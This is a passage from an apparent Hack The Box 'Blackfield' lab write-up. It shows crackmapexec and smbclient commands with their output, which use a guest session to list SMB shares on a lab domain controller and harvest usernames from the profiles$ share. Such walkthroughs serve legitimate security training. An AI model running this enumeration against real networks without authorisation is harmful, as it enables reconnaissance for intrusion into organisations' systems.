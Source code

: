 We'll use crackmapexec to enumerate SMB shares, By default if we don't specify any username or password it attempts for a NULL session and fails as null sessions are not enabled by default on modern versions of Windows Server.
```shell
cfx:  ~/Documents/htb/blackfield
→ crackmapexec smb --shares 10.10.10.192 -u '' -p ''
SMB         10.10.10.192    445    DC01             [*] Windows 10.0 Build 17763 (name:DC01) (domain:BLACKFIELD.local) (signing:True) (SMBv1:False)
SMB         10.10.10.192    445    DC01             [-] BLACKFIELD.local\: STATUS_ACCESS_DENIED
SMB         10.10.10.192    445    DC01             [-] Error enumerating shares: SMB SessionError: STATUS_ACCESS_DENIED({Access Denied} A process has requested access to an object but has not been granted those access rights.)
```
However, if we input any invalid username without password, it connects with a guest session:

```shell
cfx:  ~/Documents/htb/blackfield
→ crackmapexec smb --shares 10.10.10.192 -u 'cfx' -p ''
SMB         10.10.10.192    445    DC01             [*] Windows 10.0 Build 17763 (name:DC01) (domain:BLACKFIELD.local) (signing:True) (SMBv1:False)
SMB         10.10.10.192    445    DC01             [+] BLACKFIELD.local\cfx:
SMB         10.10.10.192    445    DC01             [+] Enumerated shares
SMB         10.10.10.192    445    DC01             Share           Permissions     Remark
SMB         10.10.10.192    445    DC01             -----           -----------     ------
SMB         10.10.10.192    445    DC01             ADMIN$                          Remote Admin
SMB         10.10.10.192    445    DC01             C$                              Default share
SMB         10.10.10.192    445    DC01             forensic                        Forensic / Audit share.
SMB         10.10.10.192    445    DC01             IPC$            READ            Remote IPC
SMB         10.10.10.192    445    DC01             NETLOGON                        Logon server share
SMB         10.10.10.192    445    DC01             profiles$       READ
SMB         10.10.10.192    445    DC01             SYSVOL                          Logon server share

```
Two unusual shares listed are `forensic` and `profiles$` but we have access to READ `profiles$` share only so let's look inside it:

```shell
cfx:  ~/Documents/htb/blackfield
→ smbclient //10.10.10.192/profiles\$
Enter WORKGROUP\root's password:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Wed Jun  3 22:17:12 2020
  ..                                  D        0  Wed Jun  3 22:17:12 2020
  AAlleni                             D        0  Wed Jun  3 22:17:11 2020
  ABarteski                           D        0  Wed Jun  3 22:17:11 2020
  ABekesz                             D        0  Wed Jun  3 22:17:11 2020
  ABenzies                            D        0  Wed Jun  3 22:17:11 2020
  ABiemiller                          D        0  Wed Jun  3 22:17:11 2020
  AChampken                           D        0  Wed Jun  3 22:17:11 2020
[..SNIP..]
  ZMalaab                             D        0  Wed Jun  3 22:17:12 2020
  ZMiick                              D        0  Wed Jun  3 22:17:12 2020
  ZScozzari                           D        0  Wed Jun  3 22:17:12 2020
  ZTimofeeff                          D        0  Wed Jun  3 22:17:12 2020
  ZWausik                             D        0  Wed Jun  3 22:17:12 2020

                7846143 blocks of size 4096. 3955786 blocks available
```
`profiles$` looks like containing directories of users which could be member of Domain controller, to copy all these usernames to a file we'll send our command with smbclient and pipe the output to awk to print the first field save it inside a separate file.
